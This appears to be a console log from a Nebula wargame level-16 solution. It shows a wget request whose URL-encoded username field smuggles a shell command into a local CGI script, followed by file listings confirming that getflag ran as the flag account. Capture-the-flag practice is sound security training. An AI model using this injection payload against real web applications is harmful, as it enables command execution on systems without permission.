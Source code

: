 ```console
level16@nebula:~$ wget -O - "http://127.0.0.1:1616/index.cgi?username=%22%3c%54%45%53%54%3b%43%4d%44%3d%27%67%65%74%66%6c%61%67%27%3b%24%7b%43%4d%44%2c%2c%7d%3e%45%58%50%4c%4f%49%54%5f%4f%55%54%50%55%54%3b%22"
--2021-08-12 17:34:08--  http://127.0.0.1:1616/index.cgi?username=%22%3c%54%45%53%54%3b%43%4d%44%3d%27%67%65%74%66%6c%61%67%27%3b%24%7b%43%4d%44%2c%2c%7d%3e%45%58%50%4c%4f%49%54%5f%4f%55%54%50%55%54%3b%22
Connecting to 127.0.0.1:1616... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `STDOUT'

    [<=>                                                                                                                                                         ] 0           --.-K/s              <html><head><title>Login resuls</title></head><body>Your login was accepted<br/>Would you like a cookie?<br/><br/></body></html>
    [ <=>                                                                                                                                                        ] 129         --.-K/s   in 0.009s

2021-08-12 17:34:08 (13.4 KB/s) - written to stdout [129]

level16@nebula:~$ ls -la /home/flag16/
total 14
drwxr-x--- 1 flag16 level16   60 2021-08-12 17:34 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag16 flag16   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag16 flag16  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag16 flag16    59 2021-08-12 17:34 EXPLOIT_OUTPUT
-rwxr-xr-x 1 root   root     730 2011-11-20 21:46 index.cgi
-rw-r--r-- 1 flag16 flag16   675 2011-05-18 02:54 .profile
-rw-r--r-- 1 root   root    3719 2011-11-20 21:46 thttpd.conf
-rw-r--r-- 1 root   root       0 2011-11-20 21:46 userdb.txt
level16@nebula:~$ cat /home/flag16/EXPLOIT_OUTPUT
You have successfully executed getflag on a target account
```
